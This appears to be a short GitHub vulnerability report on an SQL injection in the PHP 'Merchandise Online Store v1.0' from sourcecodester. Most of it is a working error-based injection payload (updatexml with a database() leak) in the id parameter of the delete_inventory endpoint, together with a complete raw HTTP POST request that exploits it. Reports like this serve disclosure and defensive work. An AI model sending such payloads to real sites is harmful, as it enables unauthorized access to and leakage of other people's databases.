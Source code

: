 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/classes/Master.php?f=delete_inventory

Vulnerability location: /vloggers_merch/classes/Master.php?f=delete_inventory, id

[+] Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /vloggers_merch/classes/Master.php?f=delete_inventory HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/vloggers_merch/admin/?page=inventory
Content-Length: 65
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/166875107-9de21ebb-49b2-4dd8-ade5-22db30055f78.png)
